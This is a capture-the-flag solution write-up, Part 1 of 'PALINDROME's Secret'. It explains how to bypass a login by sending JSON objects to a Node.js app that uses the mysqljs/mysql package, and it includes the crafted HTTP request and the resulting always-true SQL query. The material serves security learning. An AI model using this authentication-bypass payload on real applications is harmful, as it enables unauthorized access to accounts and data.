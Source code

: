 # PALINDROME's Secret - Solution

## Part 1 - Gaining Access

Upon inspection of the source code, we will quickly discover that the first thing we need to do is to bypass the login, since all other endpoints are protected by `authenticationMiddleware`.

We see that the `mysqljs/mysql` package is used  *without* the `stringifyObjects: true` option:

```javascript
const db = mysql.createConnection({
    host     : 'db',
    user     : 'web',
    password : process.env.MYSQL_PASSWORD,
    database : 'palindrome'
});
```

While the email and password values are expected to be strings, the use of `express.json()` allows `Object` and `Array` types to be given as `req.body.email` and `req.body.password`.

This causes [unexpected behaviour](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) when constructing SQL queries.

For instance, POST-ing the following JSON to `/login`:

```http
POST /login HTTP/1.1
Host: localhost
Content-Length: 97
Content-Type: application/json

{
    "email": {
        "email": 1
    },
    "password": {
        "password": 1
    }
}
```

will cause the following SQL query to be executed:

```sql
SELECT * FROM users WHERE email = `email` = 1 AND password = `password` = 1
```

which simplifies to

```sql
SELECT * FROM users WHERE 1 = 1 AND 1= 1
```

This allows us to authenticate successfully and gain access to the application.
